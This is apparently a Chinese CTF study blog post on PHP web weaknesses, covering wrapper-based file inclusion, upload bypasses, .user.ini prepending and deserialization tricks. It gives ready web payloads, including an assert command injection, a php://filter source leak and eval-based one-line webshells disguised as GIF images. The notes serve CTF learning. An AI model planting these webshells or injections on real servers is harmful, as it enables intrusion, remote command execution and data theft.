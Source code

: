 ```yaml
---
title: CTF中的PHP知识点
date: 2022-12-29 21:46:39
keywords: ctf
description:  
---
```


## 一些函数的绕开

`str_replace / strstr` 函数在匹配 `php://` 字符串时，可以考虑使用大小写或大小写混合的方式绕过检查。

`assert` 绕过可以使用 `*1') or system("cat templates/flag.php");//*`  的方式。

`strpos`  

`preg_replace` 存在 /e 执行漏洞。


## 文件读取

```php
<?php  
// $filename 可以用 GET / POST 方式传入
if( isset($text) && (file_get_contents($filename,'r')==="hello ctf")){

}
```

当遇到 file_get_contents($file_name) 代码做条件判断时，尝试通过 data 伪协议传入希望读取的内容。data 伪协议也可以被 `include` 函数调用，从PHP5.2.0起，数据封装流就开始有效，用于数据流的读取。如果传入的都是PHP代码，就会执行任意代码。

### data 伪协议

```php
data://text/plain,hello ctf
data://text/plain;base64,aGVsbG8gY3Rm
```

### php 伪协议

当遇到 `include` 函数时，可以用 `php://` 伪协议将文件内容打印出来


```sh
?file=php://filter/read=convert.base64-encode/resource=flag.php
```



## 文件上传绕过

文件上传功能风险在于被人上传木马，经常用到的一句话木马为 `<?php eval($_GET['a']); ?>`，而绕过的方法有很多种。

* 前端校验
* MIME绕过
* 文件头校验
* 截断绕过
* 图片木马

在文本文件中添加 `GIF89a` 并保存为 jpg 文件，可以伪装成图片文件。利用 `<?` 短符号，可以绕过 php 文件的探测。

```sh
GIF89a                                                                                                                                                                                
<?=eval($_REQUEST['cmd']);?>
```

`.user.ini` 配置，可以将某个文件默认追加到所有执行 php 的文件的头部

```sh
GIF89a                  
auto_prepend_file=b.jpg
```

## 反序列化绕过

序列化就是将运行中的数据或者对象保存为持久化的数据，并且支持将持久化的数据反序列化转换为数据或者对象。序列化的目的是方便数据的传输和存储。

php 的序列化和反序列化会用到 `serialize` 和 `unserialize` 函数。

```php
// 使用这两个替换，可以绕过 wakeup 函数
$a = str_replace(':4:', ':+4:', $a);
$a = str_replace(':1:', ':2:', $a);
```



## 弱类型比较的漏洞

在一些代码审计的题目中，可能存在弱类型漏洞，需要敏锐的发现这些问题。



## 参考资料

1. [CTF include](https://blog.csdn.net/qq_61774705/article/details/126323696)
1. [攻防世界CTF —— PHP本地文件包含漏洞解题思路](https://blog.csdn.net/weixin_47610939/article/details/126019042)
1. [2021-02-23-ctf-Web_php_unserialize反序列化漏洞](https://blog.csdn.net/weixin_43639682/article/details/123686797)
1. [[CTF]PHP反序列化总结](https://blog.csdn.net/solitudi/article/details/113588692)
1. [XCTF-攻防世界CTF平台-Web类——19、mfw（.Git源代码泄露、php的assert断言）](https://blog.csdn.net/Onlyone_1314/article/details/121876664)
1. [路径穿越（Path Traversal）详解](https://blog.csdn.net/qingzhantianxia/article/details/128204437)
